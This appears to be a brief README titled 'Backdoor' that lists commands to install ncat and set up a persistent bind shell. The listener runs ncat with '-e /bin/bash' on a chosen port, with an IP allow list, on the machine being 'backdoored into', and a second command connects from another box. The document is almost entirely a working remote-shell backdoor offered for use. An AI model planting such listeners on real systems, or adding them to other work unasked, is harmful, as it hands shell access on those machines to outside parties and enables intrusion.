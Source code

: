 # Backdoor 
## Install ncat on the local box
### Apt-get (Install)
'sudo apt-get update'
'sudo apt-get -y install ncat'

### Apt (Install)
'sudo apt update'
'sudo apt -y install ncat'

### Aptitude (Install)
'sudo aptitude update'
'sudo aptitude -y install ncat'

## Local box that will be backdoored into 
'ncat -k -nvlp <port> -e "/bin/bash" --allow <ips go here>'

## Box that will backdoor into local machine 
'ncat -nv <ip address of local box> <port>'



### If ncat needs to be deleated
'sudo apt-get -y autoremove --purge ncat'

